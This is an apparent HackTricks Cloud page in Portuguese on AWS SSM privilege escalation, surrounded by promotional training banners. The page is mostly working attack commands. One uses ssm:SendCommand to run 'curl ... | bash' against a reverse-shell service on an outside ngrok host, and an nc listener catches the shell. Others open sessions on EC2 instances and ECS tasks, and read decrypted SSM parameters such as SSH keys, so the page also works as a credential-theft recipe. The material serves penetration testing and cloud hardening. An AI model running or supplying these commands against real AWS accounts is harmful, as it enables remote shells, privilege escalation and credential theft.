 # AWS - SSM Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## SSM

Para mais informações sobre SSM, confira:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Um atacante com a permissão **`ssm:SendCommand`** pode **executar comandos em instâncias** que estão rodando o Amazon SSM Agent e **comprometer o IAM Role** que está rodando dentro dele.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Caso você esteja usando esta técnica para escalar privilégios dentro de uma instância EC2 já comprometida, você pode apenas capturar o rev shell localmente com:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impacto Potencial:** Privesc direto para os papéis IAM do EC2 anexados a instâncias em execução com Agentes SSM em funcionamento.

### `ssm:StartSession`

Um atacante com a permissão **`ssm:StartSession`** pode **iniciar uma sessão semelhante ao SSH em instâncias** executando o Agente SSM da Amazon e **comprometer o Papel IAM** em execução dentro dele.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Para iniciar uma sessão, você precisa do **SessionManagerPlugin** instalado: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impacto Potencial:** Privesc direto para os papéis IAM do EC2 anexados às instâncias em execução com Agentes SSM em execução.

#### Privesc para ECS

Quando as **tarefas ECS** são executadas com **`ExecuteCommand` habilitado**, usuários com permissões suficientes podem usar `ecs execute-command` para **executar um comando** dentro do contêiner.\
De acordo com [**a documentação**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), isso é feito criando um canal seguro entre o dispositivo que você usa para iniciar o comando “_exec_” e o contêiner de destino com o SSM Session Manager. (Plugin do SSM Session Manager necessário para que isso funcione)\
Portanto, usuários com `ssm:StartSession` poderão **obter um shell dentro das tarefas ECS** com essa opção habilitada apenas executando:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impacto Potencial:** Privesc direto para os papéis `ECS`IAM anexados a tarefas em execução com `ExecuteCommand` habilitado.

### `ssm:ResumeSession`

Um atacante com a permissão **`ssm:ResumeSession`** pode re-**iniciar uma sessão semelhante ao SSH em instâncias** executando o Amazon SSM Agent com um estado de sessão SSM **desconectado** e **comprometer o Papel IAM** em execução dentro dele.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impacto Potencial:** Privesc direto para os papéis IAM do EC2 anexados a instâncias em execução com Agentes SSM em execução e sessões desconectadas.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Um atacante com as permissões mencionadas será capaz de listar os **parâmetros SSM** e **lê-los em texto claro**. Nesses parâmetros, você pode frequentemente **encontrar informações sensíveis** como chaves SSH ou chaves de API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impacto Potencial:** Encontrar informações sensíveis dentro dos parâmetros.

### `ssm:ListCommands`

Um atacante com esta permissão pode listar todos os **comandos** enviados e, esperançosamente, encontrar **informações sensíveis** neles.
```
aws ssm list-commands
```
**Impacto Potencial:** Encontrar informações sensíveis dentro das linhas de comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Um atacante com essas permissões pode listar todos os **comandos** enviados e **ler a saída** gerada, na esperança de encontrar **informações sensíveis** nela.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impacto Potencial:** Encontre informações sensíveis dentro da saída dos comandos.

### Codebuild

Você também pode usar o SSM para acessar um projeto de codebuild que está sendo construído:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
